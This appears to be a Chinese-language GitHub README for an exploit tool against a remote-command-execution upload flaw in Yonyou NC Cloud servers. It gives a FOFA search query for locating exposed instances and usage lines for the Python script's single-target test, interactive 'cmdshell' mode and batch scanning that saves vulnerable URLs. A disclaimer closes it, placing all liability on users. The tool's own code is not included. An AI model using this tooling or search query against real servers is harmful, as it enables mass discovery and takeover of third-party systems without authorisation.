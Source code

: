 # Yongyou_NC_Cloud_upload_rce

用友网络科技股份有限公司NC Cloud存在命令执行漏洞，攻击者可利用该漏洞获取服务器控制权。

## fofa查询

app="用友-NC-Cloud"

## 工具利用

python3 NC_Cloud_upload_rce.py -u http://127.0.0.1:1111 单个url测试

python3 NC_Cloud_upload_rce.py -c http://127.0.0.1:1111 cmdshell模式
![exp](./exp.jpg)

python3 NC_Cloud_upload_rce.py -f url.txt 批量检测 扫描会自动保存存在漏洞的url到vuln.txt
![poc](./poc.jpg)

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
